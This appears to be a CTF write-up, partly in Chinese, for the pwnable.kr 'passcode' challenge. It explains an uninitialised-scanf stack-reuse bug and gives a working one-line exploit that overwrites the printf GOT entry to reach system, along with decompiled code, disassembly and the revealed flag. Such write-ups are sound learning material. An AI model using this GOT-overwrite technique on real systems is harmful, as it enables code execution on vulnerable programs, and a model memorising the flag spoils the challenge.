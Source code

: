## TARGET
```
passcode - 10 pt [writeup] 

Mommy told me to make a passcode based login system.
My initial C code was compiled without any error!
Well, there was some compiler warning, but who cares about that?

ssh passcode@pwnable.kr -p2222 (pw:guest)
```
## WRITEUP
download:
```scp -P 2222 -p  passcode@pwnable.kr:/home/passcode/* ./```

漏洞信息：   
程序main函数中，welcome和login存在栈复用，welcome调用gets向ebp-0x70读入100个字符。    
login中scanf没有取地址，因此会把[ebp-10h]和[ebp-0xch]的内容当成要写入的地址。 

在welcome中，我们有一次布置数据的机会，可以造成信息泄漏、布置dirty data。  
在login中，我们可以两次任意地址写，每次写4byte。  
如果想进入system流程，需要修改[ebp-0x10]和[ebp-0xc]的内容。由于没有栈地址，在welcome中泄漏出数据之后就不能布置dirty data了。因此，考虑利用任意地址写来hijack GOT为.text中system的地址，首先需要在welcome布置[ebp-0x10]为printf GOT地址。  

scanf format %100s可以读取100 byte，正好0x60*"A"+PRINTF_GOT_ADDR也是100 byte。多的输入正好给了login中的scanf %d，也就是向GOT表中写入的值。

EXP:  
python -c "print 'A'*0x60 + '\x00\xa0\x04\x08' + '134514147'" | ./passcode

```c
unsigned int welcome()
{
  char v1; // [esp+18h] [ebp-70h]
  unsigned int v2; // [esp+7Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  printf("enter you name : ");
  __isoc99_scanf("%100s", &v1);
  printf("Welcome %s!\n", &v1);
  return __readgsdword(0x14u) ^ v2;
}

int login()
{
  int v1; // [esp+18h] [ebp-10h]
  int v2; // [esp+1Ch] [ebp-Ch]

  printf("enter passcode1 : ");
  __isoc99_scanf("%d");
  fflush(stdin);
  printf("enter passcode2 : ");
  __isoc99_scanf("%d");
  puts("checking...");
  if ( v1 != 338150 || v2 != 13371337 )
  {
    puts("Login Failed!");
    exit(0);
  }
  puts("Login OK!");
  return system("/bin/cat flag");
}
```

```asm
.text:08048564 ; __unwind {
.text:08048564                 push    ebp
.text:08048565                 mov     ebp, esp
.text:08048567                 sub     esp, 28h
.text:0804856A                 mov     eax, offset format ; "enter passcode1 : "
.text:0804856F                 mov     [esp], eax      ; format
.text:08048572                 call    _printf
.text:08048577                 mov     eax, offset aD  ; "%d"
.text:0804857C                 mov     edx, [ebp+var_10]
.text:0804857F                 mov     [esp+4], edx
.text:08048583                 mov     [esp], eax
.text:08048586                 call    ___isoc99_scanf
.text:0804858B                 mov     eax, ds:stdin@@GLIBC_2_0
.text:08048590                 mov     [esp], eax      ; stream
.text:08048593                 call    _fflush
.text:08048598                 mov     eax, offset aEnterPasscode2 ; "enter passcode2 : "
.text:0804859D                 mov     [esp], eax      ; format
.text:080485A0                 call    _printf
.text:080485A5                 mov     eax, offset aD  ; "%d"
.text:080485AA                 mov     edx, [ebp+var_C]
.text:080485AD                 mov     [esp+4], edx
.text:080485B1                 mov     [esp], eax
.text:080485B4                 call    ___isoc99_scanf
```
## flag
Sorry mom.. I got confused about scanf usage :(

## TIPS
scanf 会将format和输入的字符进行匹配，如果不匹配，格式化操作不会生效。例如：scanf("input%d",&a);输入为input123，123才会写入a中。

举例:地址不可写时赋值失败
```asm
 ► 0xf7e53bc7 <_IO_vfscanf+15271>    mov    dword ptr [edx], eax <0xf7e60cab>
   0xf7e53bc9 <_IO_vfscanf+15273>    jmp    _IO_vfscanf+4719 <0xf7e5128f>
    ↓
   0xf7e5128f <_IO_vfscanf+4719>     add    dword ptr [ebp - 0x588], 1
   0xf7e51296 <_IO_vfscanf+4726>     mov    dword ptr [ebp - 0x570], 0
   0xf7e512a0 <_IO_vfscanf+4736>     jmp    _IO_vfscanf+760 <0xf7e50318>
```
